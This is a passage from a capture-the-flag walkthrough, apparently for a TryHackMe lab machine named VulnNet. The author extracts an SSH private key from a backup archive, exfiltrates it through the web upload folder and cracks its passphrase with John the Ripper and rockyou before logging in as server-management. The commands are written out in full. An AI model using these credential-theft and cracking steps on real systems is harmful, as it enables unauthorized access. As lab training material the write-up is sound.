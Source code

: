 I looked into the file, and it contained a ssh private key. So I copied it to the same folder where my reverse shell was and [downloaded it](http://broadcast.vulnnet.thm/actions/CB_BEATS_UPLOAD_DIR/id_rsa)
```bash
www-data@vulnnet:/var/www/html$ cp /var/backups/ssh-backup.tar.gz /tmp/
www-data@vulnnet:/var/www/html$ cd /tmp/
www-data@vulnnet:/tmp$ gunzip ssh-backup.tar.gz 
www-data@vulnnet:/tmp$ tar -xvf ssh-backup.tar 
id_rsa
www-data@vulnnet:/tmp$ file id_rsa 
id_rsa: PEM RSA private key
www-data@vulnnet:/tmp$ cp id_rsa /var/www/html/actions/CB_BEATS_UPLOAD_DIR/
```

Once I had the key locally, I tried to use it to connect back to the server as the user server-management. But it needed a passphrase. 

```bash
$ chmod 600 id_rsa 

$ ssh server-management@vulnnet.thm -i id_rsa 
The authenticity of host 'vulnnet.thm (10.10.186.11)' can't be established.
ECDSA key fingerprint is SHA256:o3DFbZLKgDIjKXw0C1ptP4MVaCWwTGjXMpOhpnaus+8.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'vulnnet.thm,10.10.186.11' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa': 
```

I tried the database password, and the one for the developers user. They did not work. So I was back to brute forcing. 


```bash
$ python2 /usr/share/john/ssh2john.py id_rsa > john.hash

$ john john.hash -w=/usr/share/wordlists/rockyou.txt

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
PASSPHRASE     (id_rsa)
1g 0:00:00:09 DONE (2021-06-06 10:53) 0.1091g/s 1565Kp/s 1565Kc/s 1565KC/sa6_123..*7¡Vamos!
Session completed
```

I could now connect to the server with ssh. And read the first flag.
```bash
$ ssh server-management@vulnnet.thm -i id_rsa 
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-134-generic x86_64)

...

server-management@vulnnet:~$ ls -la
total 108
drwxrw---- 18 server-management server-management 4096 Jan 24 14:05 .
drwxr-xr-x  3 root              root              4096 Jan 23 13:58 ..
lrwxrwxrwx  1 root              root                 9 Jan 23 20:49 .bash_history -> /dev/null
-rw-r--r--  1 server-management server-management  220 Jan 23 13:58 .bash_logout
-rw-r--r--  1 server-management server-management 3771 Jan 23 13:58 .bashrc
drwxrwxr-x  8 server-management server-management 4096 Jun  6 16:53 .cache
drwxrwxr-x 14 server-management server-management 4096 Jan 23 14:03 .config
drwx------  3 server-management server-management 4096 Jan 23 14:03 .dbus
```